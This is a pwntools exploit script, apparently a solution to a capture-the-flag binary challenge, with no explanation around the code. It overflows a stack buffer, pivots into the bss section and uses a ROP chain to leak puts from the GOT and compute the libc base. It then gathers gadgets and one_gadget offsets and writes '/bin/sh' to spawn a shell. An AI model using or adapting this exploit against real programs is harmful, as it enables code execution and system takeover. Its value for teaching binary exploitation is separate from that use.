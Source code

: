 ```bash
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']

add_idx = 1
delete_idx = 2
show_idx = 4
edit_idx = 3

def dbg():
   gdb.attach(proc.pidof(p)[0])
   pause()

bss = elf.bss()
li('bss = '+hex(bss))


bss4=bss+0x400
bss6=bss+0x600
read=0x401216
main=0x4011F4
rdi=0x4012c3
rsi_r15=0x4012c1
ret=0x40101a
sys=0x401090
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
ru('who r u?\n')
pl=b'a'*0x20+p64(bss4)+p64(read)
s(pl)
ru('life?\n')
s(b'\n')
pl=b'a'*0x20+p64(bss4+0x20)+p64(read)
s(pl)
ru('life?\n')
sl(b'/bin/sh\x00')

'''
pl=p64(bss4+0x30)+p64(ret)+p64(rdi)+p64(0x4040a0)+p64(sys)
dbg()
s(pl)
'''

pl=p64(bss4+0x30)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
s(pl)

libc_base=l64()-libc.sym['puts']
li(hex(libc_base))
pop_rdi = libc_base + libc.search(asm('pop rdi;ret;')).__next__()
pop_rsi = libc_base + libc.search(asm('pop rsi;ret;')).__next__()
pop_rdx = libc_base + libc.search(asm('pop rdx;ret;')).__next__()
pop_r12 = libc_base + libc.search(asm('pop r12;ret;')).__next__()
ogs = [0xe3afe,0xe3b01,0xe3b04]
og = libc_base + ogs[0]

ru('who r u?\n')
pl=b'a'*0x20+p64(bss6)+p64(read)
s(pl)
ru('life?\n')
s(b'\n')
pl=b'a'*0x20+p64(bss6+0x20)+p64(read)
s(pl)
```